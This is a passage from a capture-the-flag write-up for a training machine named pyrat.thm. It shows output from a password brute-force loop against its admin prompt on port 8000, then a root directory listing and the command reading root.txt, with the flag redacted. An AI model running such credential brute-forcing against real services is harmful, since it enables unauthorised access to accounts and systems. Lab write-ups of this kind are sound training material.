 ```python
Password:

Trying password: Pass@123
Password:

Trying password: ******
Password:

Trying password: 112233
Timeout during password attempt. Re-establishing connection...
Connected to pyrat.thm:8000
Sent username: admin
Password:

Trying password: 102030
Password:

Trying password: ubnt
Password:

Trying password: [REDACTED]
Welcome Admin!!! Type "shell" to begin

Password found: [REDACTED]
```

Since the password was found, it easily to get the **`root`** user and capture the final flag:

```
-rwxr-xr-x  1 root root 5.3K Apr 15  2024 pyrat.py
drwxrwx---  7 root root 4.0K Apr 15  2024 .
-rw-rw-rw-  1 root root  11K Apr 15  2024 .viminfo
drwxr-xr-x  3 root root 4.0K Jan  4  2024 .local
drwx------  3 root root 4.0K Dec 22  2023 .config
drwxr-xr-x 18 root root 4.0K Dec 22  2023 ..
-rw-r--r--  1 root root   29 Jun 21  2023 .gitconfig
drwx------  2 root root 4.0K Jun 21  2023 .cache
-rwxrwx---  1 root root 3.2K Jun 21  2023 .bashrc
-rw-r--r--  1 root root   75 Jun 15  2023 .selected_editor
-rw-r-----  1 root root   33 Jun 15  2023 root.txt
drwxrwx---  3 root root 4.0K Jun  2  2023 snap
lrwxrwxrwx  1 root root    9 Jun  2  2023 .bash_history -> /dev/null
drwxrwx---  2 root root 4.0K Jun  2  2023 .ssh
-rwxrwx---  1 root root  161 Dec  5  2019 .profile
# # cat root.txt
cat root.txt

[REDACTED]
```
